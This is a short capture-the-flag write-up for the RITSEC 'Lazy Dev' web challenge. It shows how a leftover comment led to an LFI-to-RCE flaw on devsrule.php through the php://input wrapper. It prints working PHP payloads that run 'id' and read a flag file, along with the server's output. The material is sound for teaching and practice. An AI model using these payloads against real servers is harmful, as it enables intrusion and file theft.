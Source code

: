 ## Lazy Dev - Web 400:  

**Description:** N/A  
**Challenge:** fun.ritsec.club:8007  
**Difficulty:** Easy  
**Solved by:** Milan  

**Solution:**  
The final web challenge with a link: **http://fun.ritsec.club:8007**.  
Hmm it takes us back to The tangled web challenge. At first, I was thinking that it was a mistake, but after reviewing all pages I crawled, I saw a comment which lead us further. Comment was found in **http://fun.ritsec.club:8007/Stars.html** and it goes like this:  

**<-- REMOVE THIS NOTE LATER -->**
**<-- Getting remote access is so much work. Just do fancy things on devsrule.php -->**

So I went to http://fun.ritsec.club:8007/devsrule.php and I am welcomed with:  
**Not what you input eh?**  
**This param is 'magic' man.**  
**Well, it is said that the parameter is magic.**  

I started poking around and after a while I finally figured out that it is LFI to RCE ! We have to use **php://input wrapper** !  

I intercepted the **GET request with Burp Suite** and changed to **POST /devsrule.php?magic=php://input HTTP/1.1**  
Next thing was to add **POST data** so I ran ```<?php system('id'); ?>``` and I got this response:  
**Not what you input eh?**  
**This param is 'magic' man.**  
**uid=33(www-data) gid=33(www-data) groups=33(www-data)**  

Next step was to find the flag. With simple poking around we found our flag in **/home/joker/flag.txt**  
To read flag we execute ```<?php system('cat /home/joker/flag.txt'); ?>``` and we got flag in response!  

**Flag:**  
RITSEC{WOW_THAT_WAS_A_PAIN_IN_THE_INPUT}
